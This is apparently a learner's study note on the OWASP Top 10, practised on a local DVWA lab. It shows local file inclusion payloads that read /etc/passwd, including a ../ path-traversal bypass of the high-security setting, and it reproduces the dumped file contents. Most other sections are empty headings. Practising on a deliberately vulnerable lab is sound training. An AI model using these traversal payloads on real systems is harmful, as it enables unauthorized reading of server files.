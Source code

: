Installed DVWA in local machine and started to practice all methods. [[DVWA Installation]] #owasptop10

# Broken Access Control

1. IDOR (Insecure Direct Object Reference): Reading another user's account data by id number. 
2. Local File Inclusion: When a server-side app can display non-app files resident on the server. For example: User disclosure through /etc/passwd
3. Weak Authorization: When the application fails to protect sensitive content. For example: 'securing' admin pages with a readable cookie.
4. Security Through Obscurity: Secret paths tend not to stay secret. People aren't as inventive as they think. 

### File inclusion 

1. Changing links to get secret information. 
~~~link
http://10.10.78.153/vulnerabilities/fi/?page=/etc/passwd

1. When security is low

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false landscape:x:103:109::/var/lib/landscape:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash mysql:x:106:111:MySQL Server,,,:/nonexistent:/bin/false 

2. When security is high

ERROR: File not found!

3. Read source code and tried to exploit high security 

http://10.10.78.153/vulnerabilities/fi/?page=file/../../../../../../etc/passwd

oot:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false landscape:x:103:109::/var/lib/landscape:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash mysql:x:106:111:MySQL Server,,,:/nonexistent:/bin/false 

~~~
# Cryptographic Failures

# XSS Injection

# SQL Injection

# Insecure Design

# Security Misconfiguration 

# Vulnerable and Outdated Components

# Identification and Authentication Failures

# Software and Data Integrity Failures

# Security Logging and Monitoring Failures

# Server-Side Request Forgery

# Extra Practice 
